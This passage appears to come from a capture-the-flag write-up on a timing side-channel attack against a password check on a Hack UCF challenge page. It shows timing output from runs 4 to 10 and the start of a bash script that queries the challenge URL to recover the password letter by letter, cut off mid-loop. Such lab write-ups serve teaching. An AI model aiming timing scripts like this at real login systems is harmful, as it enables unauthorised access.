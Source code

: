 ```
Longest time was 95 characters: .010258483886718
Shortest time was 62 characters: .010103106498718
Average time for all characters: .010120621562003
-------------------
Run 4
-------------------
Longest time was 93 characters: .010487496852874
Shortest time was 92 characters: .010105454921722
Average time for all characters: .010136174559592
-------------------
Run 5
-------------------
Longest time was 38 characters: .010620379447937
Shortest time was 4 characters: .010103845596313
Average time for all characters: .010132197022437
-------------------
Run 6
-------------------
Longest time was 30 characters: .010530638694763
Shortest time was 31 characters: .010104358196258
Average time for all characters: .010130006909369
-------------------
Run 7
-------------------
Longest time was 99 characters: .010369277000427
Shortest time was 17 characters: .010105109214782
Average time for all characters: .010126906871795
-------------------
Run 8
-------------------
Longest time was 64 characters: .010369932651519
Shortest time was 18 characters: .010104942321777
Average time for all characters: .010133168220519
-------------------
Run 9
-------------------
Longest time was 4 characters: .010339975357055
Shortest time was 76 characters: .010105037689209
Average time for all characters: .010125115990638
-------------------
Run 10
-------------------
Longest time was 93 characters: .010330796241760
Shortest time was 14 characters: .010105884075164
Average time for all characters: .010123458385467
```

Another timing to look at may involve the `str_split()` we saw earlier. If it splits the password into individual letters to check each one is correct before moving onto the next, we could also use the outputted time to see if we could find each letter in the password. We can do this by checking the one that took longest (i.e. moved on to check the next letter, taking slightly longer). I created a script to do this for the first letter:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Average timings" > average_timings.txt
echo "===============" >> average_timings.txt

# Start of pass can be used if we find actual letters
start_of_pass=

# Run the test 10 times to check for a consistent answer
for r in {1..10}
```
